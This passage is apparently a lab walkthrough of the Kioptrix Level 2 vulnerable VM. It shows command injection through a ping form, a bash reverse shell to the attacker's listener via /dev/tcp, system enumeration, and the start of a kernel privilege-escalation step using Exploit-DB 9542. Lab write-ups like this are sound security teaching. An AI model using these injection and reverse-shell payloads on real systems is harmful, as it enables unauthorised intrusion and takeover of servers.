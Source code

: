 PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=0 ttl=55 time=15.2 ms
64 bytes from 8.8.8.8: icmp_seq=1 ttl=55 time=12.9 ms
64 bytes from 8.8.8.8: icmp_seq=2 ttl=55 time=16.0 ms

--- 8.8.8.8 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2002ms
rtt min/avg/max/mdev = 12.901/14.710/16.016/1.324 ms, pipe 2
```

This means that it is running through a bash terminal on the backend, which means that we can ask the first request (the ping) but with a ; on the end of the reuqest, we can start a new request.

The Request
```8.8.8.8; ls```

The Result
```8.8.8.8; ls

PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=0 ttl=55 time=17.7 ms
64 bytes from 8.8.8.8: icmp_seq=1 ttl=55 time=15.7 ms
64 bytes from 8.8.8.8: icmp_seq=2 ttl=55 time=14.6 ms

--- 8.8.8.8 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2003ms
rtt min/avg/max/mdev = 14.607/16.036/17.729/1.292 ms, pipe 2
index.php
pingit.php
```

You can see that the request went through as planned, showing the 'ls' request on the end of it, as the bottom. This means that we can attempt to get access through this using a reverse shell. 

For the reverse shell to work, we will need to use netcat to listen on Port 443 on our Kali box, using this command. 
```$ nc -lvnp 443```

Then we will pass this through the web app to open the reverse shell.
```;bash -i >& /dev/tcp/10.0.2.15/443 0>&1```

You will now notice that the Kali box command prompt, should allow you to write directly to the server now, as you have just created a reverse shell conntaction. Test this out by running 
```$ whoami```

This should show you that you're the user Apache, which is infact the account on the Kioptrix Server, you can check what you're on by using the following command. 
```
$ -uname a
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux
```

Now that we know we're on the Kioptrix server, we can do one final thing and check the version of Linux that this machine is running. To do this we can use 
```
$ cat /etc/*elease
CentOS release 4.5 (Final)
```

# Privilege Escalation
We can now use all of this information to look for exploits on Exploit-DB relating to this version of Linux. 

Upon looking at https://www.exploit-db.com/exploits/9542 we can see that there is a valid exploit for CentOS 4.5. Take note of the EDB-ID and head back to your Kali terminal. Here you want to type in the following 
```$ searchsploit -m 9542```
```